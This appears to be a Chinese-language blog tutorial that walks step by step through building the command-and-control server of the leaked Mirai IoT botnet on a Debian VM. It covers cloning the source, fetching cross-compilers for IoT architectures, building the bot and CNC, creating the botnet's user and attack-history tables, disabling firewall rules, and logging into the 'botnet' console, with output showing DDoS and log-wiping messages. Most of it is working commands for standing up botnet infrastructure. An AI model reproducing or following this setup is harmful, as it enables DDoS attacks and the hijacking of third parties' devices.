


### 0、前言

环境：`Debian10` 64位虚拟机

换源等操作不再赘述，相关的参考链接附在文末

本文只是配置了`CNC`，并没有进行实际操作

本文如无提示以下所有操作默认都是在`root`权限下进行

### 1、安装一系列需要的工具

```bash
sudo apt-get install git
sudo apt-get install gcc
sudo apt-get install golang
sudo apt-get install electric-fence
sudo apt-get install mysql-server mysql-client
```

注意在安装` mysql-server`和` mysql-client`的时候可能会出错

解决方案：

先执行下述命令，`mariadb`是`mysql`的分支，仍使用`mysql`命令

```bash
apt install mariadb-server mariadb-client
```

配置`root`的密码

```bash
sudo mysql_secure_installation
```

会有一些提示，其中一个是问是否修改密码`Set root password? [Y/n]`，这里输入`Y`，随后是如果让输入新密码，输入就行了（应该是输入两次）此密码就会被设置为`mysql`中`root`账户的密码，后续一路回车。这里我将密码设置为`root`

登录到`mysql`中

```bash
sudo mysql -u root -p //
USE mysql;
SELECT User, Host, plugin FROM mysql.user;
```

我这里看到的是

```bash
+------------------+---------------------------------+
| User             | plugin                          |
+------------------+---------------------------------+
| root             | unix_socket                     |
+------------------+---------------------------------+
```

然后输入

```bash
UPDATE user SET plugin='mysql_native_password' WHERE User='root';
FLUSH PRIVILEGES;
exit;
sudo service mysql restart	//这里注意 即便已经在root权限下 仍需要加上sudo 否则可能提示没有service命令
```

### 2、CNC配置

克隆代码到本地并进入文件夹

```bash
git clone https://github.com/jgamblin/Mirai-Source-Code
cd Mirai-Source-Code
```


配置交叉编译环境

```bash
 mkdir /etc/xcompile
 cd /etc/xcompile
 
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
 wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
 
 tar -jxf cross-compiler-armv4l.tar.bz2
 tar -jxf cross-compiler-armv5l.tar.bz2
 tar -jxf cross-compiler-armv6l.tar.bz2
 tar -jxf cross-compiler-i586.tar.bz2
 tar -jxf cross-compiler-i686.tar.bz2
 tar -jxf cross-compiler-m68k.tar.bz2
 tar -jxf cross-compiler-mips.tar.bz2
 tar -jxf cross-compiler-mipsel.tar.bz2
 tar -jxf cross-compiler-powerpc.tar.bz2
 tar -jxf cross-compiler-sh4.tar.bz2
 tar -jxf cross-compiler-sparc.tar.bz2
 tar -jxf cross-compiler-x86_64.tar.bz2
 
 
 rm *.tar.bz2
 
 mv cross-compiler-armv4l armv4l
 mv cross-compiler-armv5l armv5l
 mv cross-compiler-armv6l armv6l
 mv cross-compiler-i586 i586
 mv cross-compiler-i686 i686
 mv cross-compiler-m68k m68k
 mv cross-compiler-mips mips
 mv cross-compiler-mipsel mipsel
 mv cross-compiler-powerpc powerpc
 mv cross-compiler-sh4 sh4
 mv cross-compiler-sparc sparc
 mv cross-compiler-x86_64 x86_64
```

编辑`~/.bashrc`，在尾部添加下述内容（也可以直接执行，直接执行我没尝试

```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin/
export PATH=$PATH:/etc/xcompile/armv5l/bin/
export PATH=$PATH:/etc/xcompile/armv6l/bin/
export PATH=$PATH:/etc/xcompile/i586/bin/
export PATH=$PATH:/etc/xcompile/i686/bin/
export PATH=$PATH:/etc/xcompile/m68k/bin/
export PATH=$PATH:/etc/xcompile/mips/bin/
export PATH=$PATH:/etc/xcompile/mipsel/bin/
export PATH=$PATH:/etc/xcompile/powerpc/bin/
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin/
export PATH=$PATH:/etc/xcompile/sh4/bin/
export PATH=$PATH:/etc/xcompile/sparc/bin/
 
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```

编辑完成后，执行命令，使其立刻生效（我当时好像关机重启了一下

```bash
source ~/.bashrc
```

这时执行下述命令，应该是会报错的

```bash
./build.sh debug telnet
```

这个时候执行

```bash
 go get github.com/go-sql-driver/mysql
 go get github.com/mattn/go-shellwords
```




然后再次执行

```
./build.sh debug telnet
```

如果报错，如下述之类的（应该是出现四行），不要管，多执行几次就好（我的是这样的，也可以选择关机重启再多次执行）

```
line 52: mips-gcc: command not found
```

注意，不报错的话，还需要配置完数据库才能正常运行




### 3、数据库相关配置

修改`Mirai-Source-Code/mirai/cnc`目录下的`main.go`

改为如下：`MySQL_Password`就是上面配置的密码，我配置的是`root`

```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```

修改完这里后记得执行，否则原来编译出来的使用的密码和自己配置的不一样

```
./build.sh debug telnet
```

登录数据库

```
mysql -uroot -proot
```

然后创建数据库，并选中

```
create database mirai;
use mirai;
```

把下面这些全部复制过去

```
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
```


随后执行插入命令，注意`mirai-user`和`mirai-pass`是后续登录时要用到的账户密码，也可以修改成自己喜欢的

```
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

最后退出，并重启`mysql`

```
exit;
sudo service mysql restart
```


### 4、一些问题

#### 4.1关于`iptables`

有些教程会让执行，

```
service iptables stop
/etc/ini.d/iptbales stop
```

但是我执行两步都会报错，所以我选择，这里声明，我不知道这四步有没有必要，记得加`sudo`

这四条是清理所有iptables规则，这样它就啥也不过滤，统统放行。

```
iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -F
```


#### 4.2关于telnet

`Debian10`自带的没有`telnet`服务，所以需要自己安装

这里注意，安装之后，`xinetd`这玩意可能会占用23号端口，导致后面的`cnc`无法启动，但是查看端口占用的时候可能无法找到`pid`，这个时候使用`ps -e | grep x`，找出这个`xinetd`进程的`pid`，并关闭


### 5、测试

在正式运行之前，将`Mirai-Source-Code/mirai`目录下的`prompt.txt`，移动到`/Mirai-Source-Code/mirai/debug`目录中，因为源码中有一段对该文件的检查，而且源码写的是绝对路径

运行`cnc`，注意看目录

```
root@debian:/home/panda/Mirai-Source-Code/mirai# ./debug/cnc 
Mysql DB opened

```

然后，新开终端，有些教程说用23端口，但是我这如果在后面加上23号端口，会报错

`192.168.8.134`是本机IP，使用云主机的可以使用远程工具进行连接

```
root@debian:/home/panda/Mirai-Source-Code/mirai# telnet 192.168.8.134
```

回车，会出现如下，输入用户名和密码：

```
я люблю куриные наггетсы
пользователь: 
пароль: 
```

```
я люблю куриные наггетсы
пользователь: mirai-user
пароль: **********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
mirai-user@botnet# 

```


到此算是结束了，后续就先不写，花了好久整好了，结果发现用不到，后续如果有需要再来完善


[https://github.com/jgamblin/Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code)

[Build Mirai botnet (I): Compile Mirai Source](https://www.cdxy.me/?p=746)

[Build Mirai botnet (II): Bruteforce and DDoS Attack](https://www.cdxy.me/?p=748)

[Mirai-botnet 环境搭建步骤](https://my.oschina.net/u/4274967/blog/3274405)

[开源代码mirai环境初步搭建](https://metang326.github.io/2019/04/14/[botnet%E6%A3%80%E6%B5%8B]mirai%E6%95%99%E7%A8%8B/)

[恶意代码Mirai的编译](https://www.jianshu.com/p/d16ee2cbe1e7)

https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

[Botnet Tutorials #3 - Complete setup of Mirai](https://www.youtube.com/watch?v=G4vUp3ydjs0)

[Botnet Tutorials #3.5 - Mirai | Database & Scanning setup](https://www.youtube.com/watch?v=nz_6ayGosxo)

[Linux安装mysql（解决E: Package ‘mysql-server‘ has no installation candidate与ERROR 1698 (28000)）](https://blog.csdn.net/weixin_35757704/article/details/109378675)

[[mysql登录报错：ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)](https://www.cnblogs.com/zhongyehai/p/10695334.html)

[debian下为何无法停止iptables服务？](https://segmentfault.com/q/1010000007543874#)

[Debian安装telnet服务](https://blog.csdn.net/wojiushiwoba/article/details/88235003)


